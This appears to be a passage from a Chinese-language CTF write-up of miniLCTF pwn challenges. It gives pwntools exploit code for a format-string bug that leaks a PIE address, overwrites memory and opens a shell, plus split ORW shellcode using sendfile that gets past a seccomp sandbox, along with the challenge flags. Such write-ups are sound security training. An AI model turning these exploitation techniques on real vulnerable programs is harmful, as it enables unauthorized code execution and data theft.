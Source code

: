 ```
io.recvuntil(b"contents:\n\n")
io.send(b"%3c%49$n")
io.recvuntil(b"contents:\n\n")
payload=b'%13$p\x00'
io.send(payload)
io.recvuntil(b'Your words:\n\n')
pie=int(io.recv(14),16)-0x17a7
print(f"pie=>{hex(pie)}")
payload=fmtstr_payload(10,{pie+0x4040:pie+0x177E},0,"byte")
print(hex(len(payload)))
s(payload)
io.interactive()

#miniLCTF{thlS_15-ABSOIUTeIY_Not_A-5AFE-pRoGram21aa}
```

### Ex-Aid lv.2 | FINISHED

又一个一血

![](https://seandictionary.top/wp-content/uploads/2025/05/a13cbc00-35f5-46a0-844c-2ca1963f42b2.png)

允许我们在三个连续的堆块中写出 0x18 的 shellcode,并在执行 shellcode 前开启了沙箱,并将堆的权限改为了 rx

![](https://seandictionary.top/wp-content/uploads/2025/05/e82b3a0b-0ad6-4065-9e1a-524cef3dcac8.png)

意思是不让我们调用 read 写入更多 shellcode,那我们就是使用这三段不连续的 shellcode 实现 orw

#### Open:

```
sc=asm('''
        push  2;pop rax
        lea rdi,[rdx+0x53]
        xor rsi,rsi
        xor rdx,rdx;
        syscall
        lea r10,[r9-0x20]
        jmp r10
        ''')
```

将 flag 字符串写在第三个堆块,并正常调用 open,这部分很简单,然后跳转到下个堆块继续执行(shellcode 间的跳转)

#### read,write:

我就直接用 sendfile 偷跑了,这个系统调用是真的好用啊

```
sc=asm(f'''
        mov esi,eax
        mov edi,1
        xor edx,edx
        push 100;pop r10
        push 40;pop rax
        syscall
        ''')
io.send(sc)

#miniLCTF{e@sy-CHecklN-3@sy-5H311code_1f3f346}
```
